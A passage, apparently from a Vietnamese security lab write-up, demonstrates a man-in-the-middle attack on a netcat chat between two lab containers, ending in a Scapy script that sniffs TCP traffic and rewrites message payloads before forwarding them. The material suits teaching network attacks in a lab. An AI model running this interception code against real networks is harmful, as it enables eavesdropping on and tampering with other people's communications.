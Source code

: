         ![](https://i.imgur.com/XD4l5Kq.png)
        
        Sau khi nhấn `ENTER` thì phía terminal B (server) sẽ hiển thị giống hệt vậy.
        
        ![](https://i.imgur.com/qjZ2pnC.png)

        Tương tự nếu bạn gõ ở phía terminal B và nhấn `ENTER` thì phía A cũng sẽ hiển thị giống hệt vậy.
        
- Bây giờ ta chuyển sang chết độ `ip_forward=0` thì khi nhập và nhấn `ENTER` thì sẽ không có gì xuất hiện ở phía bên kia vì đã tắt tính năng forwarding nên sẽ không có gói tin nào được gửi đến server trừ khi attacker tạo một gói tin gửi đi hoặc bật tính năng forwarding.

- Tiếp theo ta sẽ thực hiện MITM attack vào netcat thay đổi nội dung xuất hiện nếu là tên mình thì sẽ thay đổi thành một chuỗi `A` tương ứng với độ dài, ta sẽ thực hiện bằng đoạn code như sau :

    ```python=
    #!/usr/bin/env python3
    from scapy.all import *

    IP_A = "10.9.0.5"
    MAC_A = "02:42:0a:09:00:05"

    IP_B = "10.9.0.6"
    MAC_B = "02:42:0a:09:00:06"

    IP_M = "10.9.0.105"
    MAC_M = "02:42:0a:09:00:69"

    print("START MITM ATTACK.........")

    def spoof_pkt(pkt):
        if pkt[IP].src == IP_A and pkt[IP].dst == IP_B: 
             newpkt = IP(bytes(pkt[IP]))
             del(newpkt.chksum)
             del(newpkt[TCP].payload)
             del(newpkt[TCP].chksum)

             if pkt[TCP].payload:
                data = pkt[TCP].payload.load
                print("data : ",data, "length : ",len(data))
                data = data.decode()
                myName = 'hao'
                newdata = re.sub(myName,'A'*len(myName),data,flags=re.IGNORECASE) if myName in data else data
                newdata = newdata.encode()
                send(newpkt/newdata)
             else: 
                send(newpkt)

        elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
             newpkt = IP(bytes(pkt[IP]))
             del(newpkt.chksum)
             del(newpkt[TCP].chksum)
             send(newpkt)

    f = 'tcp and (ether src 02:42:0a:09:00:05 or ether src 02:42:0a:09:00:06)'    
    pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
